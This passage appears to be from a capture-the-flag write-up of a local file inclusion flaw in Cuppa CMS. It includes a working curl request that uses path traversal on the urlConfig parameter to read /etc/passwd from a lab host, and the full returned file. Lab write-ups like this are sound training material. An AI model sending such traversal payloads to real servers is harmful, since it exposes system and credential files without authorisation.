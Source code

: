 ![WZaoXoE](https://user-images.githubusercontent.com/69171981/119408827-329c7800-bc9b-11eb-8cf1-565dfd67b360.png)

Once again we are greeted with a login page, this time for `Cuppa` cms. After a bit of research I found [this](https://www.exploit-db.com/exploits/25971) post on `exploit-db` for a <REDACTED> file inclusion exploit.

Reading through the post, we see that the vulnerability is inside of the `/alerts/alertConfigField.php` file combined with the `?urlConfig` parameter. According to the post, "User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output."

We can test this vulnerability by using some LFI techniques.

```
$ curl http://10.10.146.95/<REDACTED>/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd

<script>
        function CloseDefaultAlert(){
                SetAlert(false, "", "#alert");
                setTimeout(function () {SetBlockade(false)}, 200);
        }
        function ShowAlert(){
                _width = '';
                _height = '';
                jQuery('#alert').animate({width:parseInt(_width), height:parseInt(_height), 'margin-left':-(parseInt(_width)*0.5)+20, 'margin-top':-(parseInt(_height)*0.5)+20 }, 300, "easeInOutCirc", CompleteAnimation);
                        function CompleteAnimation(){
                                jQuery("#btnClose_alert").css('visibility', "visible");
                                jQuery("#description_alert").css('visibility', "visible");
                                jQuery("#content_alert").css('visibility', "visible");
                        }
        }
</script>
<div class="alert_config_field" id="alert" style="z-index:;">
    <div class="btnClose_alert" id="btnClose_alert" onclick="javascript:CloseDefaultAlert();"></div>
        <div class="description_alert" id="description_alert"><b>Field configuration: </b></div>
    <div class="separator" style="margin-bottom:15px;"></div>
    <div id="content_alert" class="content_alert">
        root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
```